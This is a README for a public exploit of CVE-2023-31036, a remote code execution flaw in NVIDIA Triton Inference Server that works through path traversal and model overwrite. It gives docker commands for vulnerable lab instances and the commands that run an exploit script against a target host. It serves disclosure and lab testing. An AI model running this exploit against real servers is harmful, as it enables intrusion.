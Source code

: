 # Triton inference server RCE

publicly exposed Triton inference servers before version 2.40 with the `--model-control explicit` option are vulnerable to remote code execution by dynamic model loading through the model control APIs.
Also, All versions with the `--model-control explicit` option and at least one loaded model can be overwritten by a malicious model and lead to RCE.

Detailed blog post: https://protectai.com/threat-research/triton-inference-server-arbitrary-file-overwrite
Metasploit module: https://github.com/protectai/ai-exploits/tree/main/triton

# An instance vulnerable to path traversal (CVE-2023-31036)
```bash
docker run --rm -p8000:8000 -p8001:8001 -p8002:8002 -v/APath1/:/models nvcr.io/nvidia/tritonserver:23.11-py3 tritonserver --model-repository=/models --model-control explicit
```
then run the Metasploit exploit:
```bash
python3 triton_model_rce.py --rhost yourTritonServerIP --command "A command to verify"
```

# An instance with at least one loaded model, all versions are affected
Copy the `SimpleModel` into `/APath2/` and then run the following:

```bash
docker run --rm -p8000:8000 -p8001:8001 -p8002:8002 -v/APath2/:/models nvcr.io/nvidia/tritonserver:23.10-py3 tritonserver --model-repository=/models --model-control explicit
```

then run the Metasploit exploit:
```bash
python3 triton_model_rce.py --rhost yourTritonServerIP --command "A command to verify" --overwrite true
```
